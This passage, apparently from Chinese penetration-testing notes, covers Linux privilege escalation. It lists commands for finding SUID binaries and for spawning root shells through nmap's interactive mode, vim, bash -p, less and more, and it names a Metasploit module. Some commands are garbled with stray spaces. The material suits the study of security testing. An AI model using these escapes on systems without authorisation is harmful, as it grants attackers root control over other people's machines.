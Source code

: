 ```
#显示可能有趣的打开文件
lsof \| grep \'/home/\|/etc/\|/opt/' 
也可以使用 sudo -l 命令列出当前用户可执行的命令
```


## 8.2、常用提权方式
**NMAP**
```
#查找设置了SUID位的可执行文件
find / -perm -u = s -type f 2> / dev / null

#让我们确认nmap是否设置了SUID位。
ls -la / usr / local / bin / nmap
```

Nmap的SUID位置,很多时候，管理员将SUID位设置为nmap，以便可以有效地扫描网络，因为如果不使用root特权运行它，则所有的nmap扫描技术都将无法使用。但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行nmap，从而可以转至shell。如果nmap设置了SUID位，它将以root特权运行，我们可以通过其交互模式访问’root’shell。
```
#运行nmap交互模式
nmap --interactive 
#我们可以从nmap shell转到系统shell
！sh
```

**msf中的模块为：**
```
exploit/unix/local/setuid_nmap
```

**vi/vim**<br />Vim的主要用途是用作文本编辑器。 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

打开vim,按下ESC
```
:set shell=/bin/sh
:shell

sudo vim -c '!sh'
```

**bash**
```
以下命令将以root身份打开一个bash shell
bash -p
bash-3.2
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(servi
```

**less**<br />程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。
```
less /etc/passwd
!/bin/sh
```

**more**
```
more /home/pelle/myfile
!/bin/bash
```
